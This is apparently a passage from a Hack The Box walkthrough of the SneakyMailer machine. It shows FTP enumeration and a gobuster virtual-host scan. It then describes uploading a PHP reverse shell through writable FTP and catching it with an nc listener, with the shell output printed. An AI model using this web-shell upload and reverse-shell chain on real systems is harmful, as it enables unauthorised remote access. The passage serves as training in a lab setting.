 ```bash
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x 2 0 0 4096 May 26 2020 css
drwxr-xr-x 2 0 0 4096 May 26 2020 img
-rwxr-xr-x 1 0 0 13742 Jun 23 08:44 index.php
drwxr-xr-x 3 0 0 4096 May 26 2020 js
drwxr-xr-x 2 0 0 4096 May 26 2020 pypi
drwxr-xr-x 4 0 0 4096 May 26 2020 scss
-rwxr-xr-x 1 0 0 26523 May 26 2020 team.php
drwxr-xr-x 8 0 0 4096 May 26 2020 vendor
226 Directory send OK.
ftp>
```

We can try writing to the directory by using a put command. It turns out that we can upload files to the dev directory but when looking at the website, they are not there. One thing we haven't checked is if there are any virtual hosts. Virtual hosts are ways of creating different websites pointing at different directory paths simply by changing the host name in the HTTP request. We can use gobuster to see if there are any virtual hosts for the domain sneakycorp.htb and indeed we find that there is a virtual host dev.sneakycorp.htb:

```bash
┌─[✗]─[oztechmuse@parrot]─[~/boxes/SneakyMailer/]
└──╼ $gobuster vhost -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u sneakycorp.htb
<SNIP>
===============================================================
Found: dev.sneakycorp.htb (Status: 200) [Size: 13742]
```

We can upload a PHP reverse shell that we copy from /usr/share/webshells/php/php-reverse-shell.php. We can change the IP address and port in the file and start a netcat listener on that port. In ftp we simply cd to the dev directory and do a put of the file.

```bash
ftp> put revshell.php
local: revshell.php remote: revshell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5494 bytes sent in 0.00 secs (98.8582 MB/s)
ftp>
```

Calling the file from [http://dev.sneakycorp.htb/revshell.php](http://dev.sneakycorp.htb/revshell.php) will get a reverse shell on our listener:

```bash
┌─[rin@parrot]─[~/boxes/SneakyMailer]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
connect to [10.10.14.117] from (UNKNOWN) [10.129.2.28] 45354
Linux sneakymailer 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux
 08:01:00 up 10:35, 0 users, load average: 0.00, 0.02, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
